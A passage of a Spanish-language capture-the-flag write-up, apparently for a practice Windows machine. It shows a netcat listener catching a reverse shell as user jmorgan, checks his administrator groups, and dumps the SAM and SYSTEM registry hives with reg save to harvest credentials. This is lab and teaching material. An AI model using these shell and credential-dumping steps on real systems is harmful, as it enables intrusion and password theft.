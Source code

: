 Y conseguimos una consola como `jmorgan`
```console
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.125] from (UNKNOWN) [10.129.136.40] 49849
Microsoft Windows [Version 10.0.19044.1466]
(c) Microsoft Corporation. All rights reserved.

C:\Users\jmorgan\Documents>whoami
whoami
acute\jmorgan
```

# User Pivoting 2
Podemos comprobar que `jmorgan` es un usuario administrador en esta máquina.
```console
C:\Users\jmorgan\Documents>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes                                                     
========================================== ================ ============ ===============================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group             
BUILTIN\Administrators                     Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group             
Authentication authority asserted identity Well-known group S-1-18-1     Mandatory group, Enabled by default, Enabled group             
Mandatory Label\High Mandatory Level       Label            S-1-16-12288                                                             
```

Una buena práctica en auditorias cuando eres administrador es conseguir credenciales de otros usuarios, podemos hacer esto haciendo el típico método de dumpeando la SAM.

Un tutorial básico de como hacer esto lo podemos [encontrar aquí](https://www.hackingarticles.in/credential-dumping-sam/)

Podemos dumper el registro de la SAM y el registro System.
```console
C:\Users\jmorgan\Documents>reg save hklm\sam c:\sam                       
reg save hklm\sam c:\sam
The operation completed successfully.

C:\Users\jmorgan\Documents>reg save hklm\system c:\system                 
reg save hklm\system c:\system
The operation completed successfully.
```
